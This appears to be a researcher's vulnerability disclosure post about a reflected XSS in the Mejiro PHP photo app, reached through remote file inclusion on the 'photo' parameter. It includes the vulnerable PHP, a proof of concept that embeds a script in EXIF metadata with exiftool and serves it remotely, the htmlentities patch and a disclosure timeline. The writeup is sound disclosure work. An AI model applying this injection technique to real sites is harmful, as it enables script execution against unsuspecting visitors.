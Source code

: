 ```yaml
---
layout: post
title: Mejiro Reflected XSS Via Remote File Inclusion
subtitle: CVE
thumbnail-img: /assets/img/CVE-2022-27475/bug.png
tags: [CVE]
---
```


```
Title: Mejiro Reflected XSS Via Remote File Inclusion
Risk: 6.1 Medium CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N
Versions Affected: Before commit 3096393
Identifier: TBD
Authors: Aaron Haymore
```

## Summary
I have identified a reflected cross-site scripting (XSS) vulnerability in a GitHub project known as Mejiro, which is an open-source photo publishing application. This XSS vulnerability can be exploited due to two critical factors. The first factor involves how `index.php` loads photos, while the second factor pertains to how the application processes metadata.
## Details
The core of the vulnerability lies within `index.php`. As seen from the code below, the application is extracting metadata using `exif` and saving them to their respective variables.
```php
// Get aperture, exposure, iso, and datetime from EXIF
$aperture = (is_null($exif['COMPUTED']['ApertureFNumber']) ? null : $exif['COMPUTED']['ApertureFNumber']);
$exposure = (is_null($exif['EXIF']['ExposureTime']) ? null : $exif['EXIF']['ExposureTime']);
// Normalize exposure
// https://stackoverflow.com/questions/3049998/parsing-exifs-exposuretime-using-php
if (!is_null($exposure)) {
	$parts = explode("/", $exposure);
	if (($parts[1] % $parts[0]) == 0 || $parts[1] == 1000000) {
		$exposure = ' &bull; 1/' . round($parts[1] / $parts[0], 0);
	} else {
		if ($parts[1] == 1) {
			$exposure = ' &bull; ' . $parts[0];
		} else {
			$exposure = ' &bull; ' . $parts[0] . '/' . $parts[1];
		}
	}
}
$iso = (is_null($exif['EXIF']['ISOSpeedRatings']) ? null : " &bull; " . $exif['EXIF']['ISOSpeedRatings']);
$datetime = $exif['EXIF']['DateTimeOriginal'] ?? null;
$comment = $exif['COMMENT']['0'] ?? null;
```

A little further down in `index.php`, you can see how this information and photo are displayed to the user. It outputs each of the variables taken from above to the webpage.
```php
// Show photo, EXIF data, description, and info
// Enable the download link if $download = true
$raw = (!empty($raw_file[0]) ? '&raw=' .  $raw_file[0] : null);
if ($download) {
	echo '<div class="center"><a href="' . htmlentities($file) . '" download><img style="max-width: 100%; border-radius: 7px;" src="' . htmlentities($tim) . '" alt="' . $file_path['filename'] . '" title="' . $file_path['filename'] . '"></a><div class="caption">' . $comment . ' ' . $description . '</div><div class="caption">' . $exif_info . '<a href="delete.php?file=' . $file . $raw . '"><img style="margin-left: 1em;" src="svg/bin.svg" alt="' . L::img_delete . '" title="' . L::img_delete . '" /></a></div>';
} else {
	echo '<div class="center"><img style="max-width: 100%; border-radius: 7px;" src="' . htmlentities($tim) . '" alt="' . $file_path['filename'] . '" title="' . $file_path['filename'] . '"><div class="caption">' . $comment . ' ' . $description . '</div><div class="caption">' . $exif_info . '<a href="delete.php?file=' . $file . $raw . '"><img style="margin-left: 1em;" src="svg/remove-image.svg" alt="' . L::img_delete . '" title="' . L::img_delete . '" /></a></div>';
}
```

Notice that there is no sanitization between when the data is extracted and displayed to the user. Input sanitization, also known as input validation, is the process of inspecting and cleaning data received from untrusted or unvalidated sources to ensure it is safe. The primary goal of input sanitization is to protect against malicious injection-type attacks. 

As an attacker, if I can manipulate variables like $comment, $description, or any other field within $exif_info, it could result in a cross-site scripting vulnerability. This bug alone does not have an impact because all the photos here are controlled by the author. There is no upload function; they have to be manually placed on the file system.

However, I was able to find a remote file inclusion vulnerability in `index.php` on the `photo` variable (it is worth noting that LFI was not possible and it would only load images). By exploiting this vulnerability, I was able to host a malicious file that contained embedded JavaScript within its metadata. When the application processes my malicious file, it extracts the JavaScript, executing it when someone visits the page.
```php
$file = (isset($_GET['photo']) ? $_GET['photo'] : null);
```

## Proof Of Concept 
To illustrate the exploit, I injected a malicious payload into a seemingly innocent 'dog.jpg' file:
```
[zonifer@dell Sandbox]$ exiftool -Comment='<script>alert("XSS")</script>' dog.jpg
    1 image files updated
```

Next, I hosted the payload on a basic `python3` web server:
```
[zonifer@dell Sandbox]$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.1.17 - - [09/Oct/2023 00:33:12] "GET /dog.jpg HTTP/1.0" 200 -
```

To trigger the XSS, I navigated to:

`http://10.10.1.17/mejiro/index.php?all=1&photo=http://10.50.1.2/dog.jpg`

As a result, the XSS payload executed as expected.
![CVE-2022-27475](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/20231009003326.png)

## Patch
To patch this vulnerability, the simplest solution is to utilize `htmlentities`. `htmlentities` is a PHP function used to convert special characters in a string to their respective HTML entities.

For example, characters like `<`, `>`, `&`, and double quotes `"` have special meanings in HTML. If they are not properly escaped, malicious users can inject code into web pages. `htmlentities` replaces these characters with their HTML entity equivalents, making it safe to display content on a webpage.

As an example, a malicious script to spawn an alert box would be:
```
<script>alert("XSS")</script>
```

After processing it through `htmlentities`, it would be:
```
`&lt;script&gt;alert(&quot;XSS&quot;)&lt;/script&gt;`
```

You can view the fix [here](https://github.com/dmpop/mejiro/commit/309639339f5816408865902befe8c90cb6862537), It essentially does what is just described above. It takes each of the EXIF data fields and processes it through `htmlentities` to strip away any possibility of malicious JavaScript.
## Report Timeline
```
10-9-2023: Vulnerability discovered and reported to the author.
10-10-2023: The author acknowledged the report and asked for suggestions to fix the issue.
10-10-2023: Response provided to the author, suggesting ways to fix the vulnerability.
10-15-2023: The patch was successfully pushed
```

## Conclusion
The Reflected XSS vulnerability in Mejiro underscores the importance of thorough security testing in web applications. It serves as a reminder that even seemingly benign elements, such as image metadata, can be exploited by malicious actors to compromise the security of a system. The timely response of the Mejiro development team in implementing the suggested patch is commendable and highlights the importance of collaboration in ensuring the security of web applications. By addressing such vulnerabilities proactively, we contribute to a safer and more reliable digital landscape.
